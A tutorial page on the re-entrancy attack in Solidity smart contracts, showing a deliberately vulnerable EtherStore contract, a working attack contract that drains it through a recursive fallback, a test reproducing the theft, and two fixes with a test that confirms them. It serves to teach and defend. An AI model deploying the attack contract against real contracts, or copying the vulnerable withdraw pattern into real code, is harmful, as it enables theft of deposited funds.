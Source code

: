 ```yaml
---
sidebar_position: 1
tags: [re-entrancy, solidity, attack]
---
```


# Re-entrancy

### Description

A re-entrancy exploit happens when one contract executes an external call to another contract that makes a recursive call back to the original function, causing interruption of the state transition. That allows the attacker to execute withdrawal again and again until all the funds are available drained. The simplest and most famous example of this attack is `EtherStore` contract that allows depositing and withdrawing funds.

The issue there is on line 15. The function `withdraw` sends ether to the sender via `msg.sender.call{value: bal}("")`:

```solidity title=/contracts/reentrancy/EtherStore.sol sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/contracts/reentrancy/EtherStore.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract EtherStore {
    mapping(address => uint256) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint256 bal = balances[msg.sender];
        require(bal > 0);

        // highlight-next-line
        (bool sent, ) = msg.sender.call{value: bal}("");

        require(sent, "Transfer failed.");

        balances[msg.sender] = 0;
    }

    function balanceOf() public view returns (uint256) {
        return address(this).balance;
    }
}
```

And our sender could be the following `Attack.sol` malicious contract that decided to withdraw again during the payout fallback process on line 19:

```solidity title=/contracts/reentrancy/AttackEtherStore.sol sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/contracts/reentrancy/AttackEtherStore.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

interface IEtherStore {
    function deposit() external payable;

    function withdraw() external;
}

contract AttackEtherStore {
    IEtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = IEtherStore(_etherStoreAddress);
    }

    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            // highlight-next-line
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    function balanceOf() public view returns (uint256) {
        return address(this).balance;
    }
}

```

Please refer to the following diagram to understand the attack sequence step by step. Note, I used John just for a display purpose here.

```mermaid
sequenceDiagram
    autonumber
    John->>EtherStore: deposit 1 ETH
    Attacker->>EtherStore: deposit 1 ETH
    loop Withdraw
        Attacker->>EtherStore: call withdraw 1 ETH
        EtherStore->>Attacker: send 1 ETH
        Note right of EtherStore: Send deposited 1 ETH back to Attacker!
        Attacker->>EtherStore: fallback calls withdraw again
        EtherStore->>Attacker: send 1 ETH again!
        Note right of EtherStore: Re-entrancy of the withdraw function before the Attacker balance is REDUCED.
    end
    Note right of John: MONEY ARE GONE!
```

### How to test

Both contracts could be tested locally using [brownie](https://eth-brownie.readthedocs.io/en/stable/) tools. It's pretty easy to run a unit test, following the attack sequence to reproduce the malicious behavior. The following unit test shows how exploiting the vulnerability the attack contract balance increases its balance:

```python title=/tests/reentrancy/test_ether_store_attack.py sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/tests/reentrancy/test_ether_store_attack.py#L12
import pytest
from brownie import exceptions
from scripts.reentrancy.ether_store.deploy_and_attack import (
    deploy_attack,
    deploy_ether_store,
    deploy_ether_store_fixed,
)
from scripts.utils import get_attacker_account, get_user_account
from web3 import Web3

def test_ether_store_attack_successful():
    # Deploy EtherStore smart contract
    ether_store = deploy_ether_store()

    # Initialize a user account
    user_account = get_user_account()
    deposit_amount_eth = 10
    value_wei = Web3.toWei(deposit_amount_eth, "ether")

    # User deposits 1 ether to EtherStore
    tx = ether_store.deposit({"from": user_account, "value": value_wei})
    tx.wait(1)

    # Assert that EtherStore balance now is 10 ETH
    assert ether_store.balanceOf() / 10**18 == 10

    # Deploy Attack contract
    attack_contract = deploy_attack(ether_store.address)

    # Assert that Attack contract balance is 0 ETH
    assert attack_contract.balanceOf() / 10**18 == 0

    # Call `attack` function of Attack contract
    attack_tx = attack_contract.attack(
        {
            "from": get_attacker_account(),
            "value": Web3.toWei(1.5, "ether"),
        }
    )

    attack_tx.wait(1)

    # Assert that EtherStore balance now is 0 ETH
    assert ether_store.balanceOf() / 10**18 == 0

    # Assert that Attack contract balance is 11.5 ETH
    assert attack_contract.balanceOf() / 10**18 == 11.5

...
```


### How to fix

#### - Apply [check-effects-interaction](https://docs.soliditylang.org/en/v0.5.11/security-considerations.html#re-entrancy) pattern

```diff title=/contracts/reentrancy/EtherStoreFixed.sol sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/contracts/reentrancy/EtherStoreFixed.sol#L16
function withdraw() public {
    uint256 bal = balances[msg.sender];
    require(bal > 0);

+   balances[msg.sender] = 0;

    // highlight-next-line
    (bool sent, ) = msg.sender.call{value: bal}("");

    require(sent, "Transfer failed.");

-   balances[msg.sender] = 0;
}
```


The send call is moved to the end of this function. This wouldn't prevent executing the `withdrow` function again by the attacker, but its balance is already 0. So the money transfer would not happen because of the `require(bal > 0)` check.


#### - Use Re-entrancy guard

The re-entrancy guard will explicitly reject any re-entrancy request. One of the most common implementations of the ReentrancyGuard is from [OpenZeppelin](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/security/ReentrancyGuard.sol). Also, you could have one implemented by yourself to avoid dependencies.

```solidity {5,7,11} title=/contracts/reentrancy/EtherStoreFixed.sol sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/contracts/reentrancy/EtherStoreFixed.sol#L4

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract EtherStoreFixed is ReentrancyGuard {

    ...

    function withdraw() public nonReentrant {
        ...
    }
    ...

```

### Demo

The fixed version of the [`EtherStoreFixed`](https://github.com/kkateq/solidity-hacks/blob/main/contracts/reentrancy/EtherStoreFixed.sol) contract could be tested the same way. However, now the test should verify that re-entrancy into `withdraw` fails:

```python title=/tests/reentrancy/test_ether_store_attack.py#L51 sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/tests/reentrancy/test_ether_store_attack.py#L51
...

def test_ether_store_attack_failed():
    # 1. Deploy EtherStore smart contracts
    ether_store = deploy_ether_store_fixed()
    user_account = get_user_account()
    deposit_amount_eth = 10

    value_wei = Web3.toWei(deposit_amount_eth, "ether")
    tx = ether_store.deposit({"from": user_account, "value": value_wei})
    tx.wait(1)
    print(
        f"Account {user_account.address} has deposited {deposit_amount_eth} ETH to EtherStore!"
    )
    print(f"Ether store balance {ether_store.balanceOf()/10**18} ETH")

    # 2. Deploy Attack contract
    attack_contract = deploy_attack(ether_store.address)

    # 3. Call `attack` function of Attack contract
    #  highlight-next-line
    with pytest.raises(exceptions.VirtualMachineError):
        attack_tx = attack_contract.attack(
            {
                "from": get_attacker_account(),
                "value": Web3.toWei(1.5, "ether"),
            }
        )

        attack_tx.wait(1)
...
```


**Thank you for reading and good luck with building secure blockchain!**
